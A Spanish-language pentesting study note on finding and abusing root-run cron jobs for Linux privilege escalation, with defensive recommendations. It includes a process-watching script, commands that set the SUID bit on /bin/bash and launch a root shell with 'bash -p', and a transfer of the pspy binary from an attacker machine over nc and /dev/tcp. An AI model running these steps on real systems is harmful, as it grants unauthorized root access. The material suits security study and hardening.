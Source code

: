 # Detección y explotación de tareas Cron

Tags: #Linux #CRON  #Escalada #Root #Privilegios #PSPY 

Una tarea **cron** es una tarea programada en sistemas Unix/Linux que se ejecuta en un momento determinado o en intervalos regulares de tiempo. Estas tareas se definen en un archivo **crontab** que especifica qué comandos deben ejecutarse y cuándo deben ejecutarse.

La detección y explotación de tareas cron es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Por ejemplo, si un atacante detecta que un archivo está siendo ejecutado por el usuario “root” a través de una tarea cron que se ejecuta a intervalos regulares de tiempo, y se da cuenta de que los permisos definidos en el archivo están mal configurados, podría manipular el contenido del mismo para incluir instrucciones maliciosas las cuales serían ejecutadas de forma privilegiada como el usuario ‘root’, dado que corresponde al usuario que está ejecutando dicho archivo.

Ahora bien, para detectar tareas cron, los atacantes pueden utilizar herramientas como **Pspy**. Pspy es una herramienta de línea de comandos que monitorea las tareas que se ejecutan en segundo plano en un sistema Unix/Linux y muestra las nuevas tareas que se inician.

Con el objetivo de reducir las posibilidades de que un atacante lograra explotar las tareas cron en un sistema, se recomienda llevar a cabo alguno de los siguientes puntos:

- **Limitar el número de tareas cron**: es importante limitar el número de tareas cron que se ejecutan en el sistema y asegurarse de que solo se otorgan permisos a tareas que requieren permisos especiales para funcionar correctamente. Esto disminuye la superficie de ataque y reduce las posibilidades de que un atacante pueda encontrar una tarea cron vulnerable.
- **Verificar los permisos de las tareas cron**: es importante revisar los permisos de las tareas cron para asegurarse de que solo se otorgan permisos a usuarios y grupos autorizados. Además, se recomienda evitar otorgar permisos de superusuario a las tareas cron, a menos que sea estrictamente necesario.
- **Supervisar regularmente el sistema**: es importante monitorear regularmente el sistema para detectar cambios inesperados en las tareas cron y para buscar posibles brechas de seguridad. Además, se recomienda utilizar herramientas de monitoreo de seguridad para detectar actividades sospechosas en el sistema.
- **Configurar los registros de la tarea cron**: se recomienda habilitar la opción de registro para las tareas cron, para poder identificar cualquier actividad sospechosa en las tareas definidas y para poder llevar un registro de las actividades realizadas por cada una de estas.

A continuación, se comparte el enlace al proyecto de Github correspondiente a la herramienta Pspy:

- **Herramienta Pspy**: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)


## CRON

* Directorios  Linux con capacidad de escritura
	* **/tmp/**
	* **/dev/shm/**

Las tareas CRON son tareas que se ejecutan en el sistema a intervalos regulares de tiempo. 

```bash 
❯ contrab -e       # Para definir una tarea CRON
❯ contrab -l       # Listas las tareas CRON 
```

* Podemos crearnos un Script llamado '**procmon.sh**', le damos privilegios de ejecución para ver las tareas que se están ejecutando, poder ver los procesos nuevos y antiguos. También podemos ver que  tipo de comandos se están ejecutando y ver cual proceso nos puede ayudar a escalar privilegios. 
   Podemos encontrar un archivo que lo este ejecutando root y además que otros usuarios lo puedan modificar.
   
```bash 
#!/bin/bash
	
function ctrl_c(){
	echo -e "\\n[!] Saliendo \\n"
	tput cnorm; exit 1
}
	
# Ctrl + c
trap ctrl_c INT
tput civis
old_process="$(ps -eo command)"

while true; do
	new_process="$(ps -eo command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done	
```

Podemos hacer que el binario que encontramos que esta ejecutando algo, poder modificarlo a nuestra manera
```bash 
❯ chmod u+s /bin/bash              # Haremos que la bash sea SUID
```

```bash 
❯ watch -n 1 ls -l /bin/bash       # Miraremos cada seg. el permiso de /bin/bash

	# n = Tiempo de actualizacion de 1 seg 
```

```bash 
❯ bash -p                          # Nos lanzamos la bash privilegiada, despues de convertirla SUID
```


También podemos usar PSPY para ver las tareas CRON. 
* Nos vamos a la pagina del PSPY
* Nos dirigimos a los releases y nos descargamos el binario .sh  > **pspy64**

Para transferir el PSPY podemos usar la ruta **/dev/tcp** y después de transferirlo le damos permisos de ejecución. 
```bash 
❯ nc -nlvp 443 < pspy64                       # Colocaremos este comando en la maquina de atacante 
❯ cat < /dev/tcp/192.168.68.1/443 > pspy      # Leeremos con cat lo que se esta compartiendo por el puerto 443 y ese output meterlo como input a pspy en la maquina victima
❯ md5sum pspy                                 # Para verificar si el binario se ha transferido correctamente, el md5 que obtenemos en la maquina victima del pspy64 debe de ser igual al de la maquina de atacante 
```

